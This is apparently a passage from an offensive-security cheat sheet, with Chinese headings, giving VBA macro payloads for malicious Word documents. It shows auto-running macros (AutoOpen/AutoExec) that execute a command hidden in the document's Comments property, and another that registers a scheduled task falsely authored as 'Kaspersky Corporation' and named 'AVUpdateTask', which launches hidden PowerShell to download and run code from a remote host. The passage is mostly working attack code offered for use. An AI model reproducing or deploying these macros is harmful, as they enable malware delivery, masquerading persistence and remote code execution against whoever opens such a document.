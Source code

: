 ```vb
CreateObject("WScript.Shell").Run "calc.exe"
CreateObject("WScript.Shell").Exec "notepad.exe"
```

### 文档翻译

#### DOCM - VBA Shell Execute Comment（DOCM - VBA 通过注释执行命令）

在文档的**注释**元数据中设置您的命令负载。

```vb
Sub beautifulcomment()
    Dim p As DocumentProperty
    For Each p In ActiveDocument.BuiltInDocumentProperties
        If p.Name = "Comments" Then
            Shell (p.Value)
        End If
    Next
End Sub

Sub AutoExec()
    beautifulcomment
End Sub

Sub AutoOpen()
    beautifulcomment
End Sub
```

#### DOCM - 通过计划任务使用 svchost.exe 生成 VBA 子进程

```ps1
Sub AutoOpen()
    Set service = CreateObject("Schedule.Service")
    Call service.Connect
    Dim td: Set td = service.NewTask(0)
    td.RegistrationInfo.Author = "Kaspersky Corporation"
    td.settings.StartWhenAvailable = True
    td.settings.Hidden = False
    Dim triggers: Set triggers = td.triggers
    Dim trigger: Set trigger = triggers.Create(1)
    Dim startTime: ts = DateAdd("s", 30, Now)
    startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
    trigger.StartBoundary = startTime
    trigger.ID = "TimeTriggerId"
    Dim Action: Set Action = td.Actions.Create(0)
    Action.Path = "C:\Windows\System32\powershell.exe"
    Action.Arguments = "-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.59:80/fezsdfqs'))"
    Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
End Sub
Rem powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.59:80/fezsdfqs'))"
```
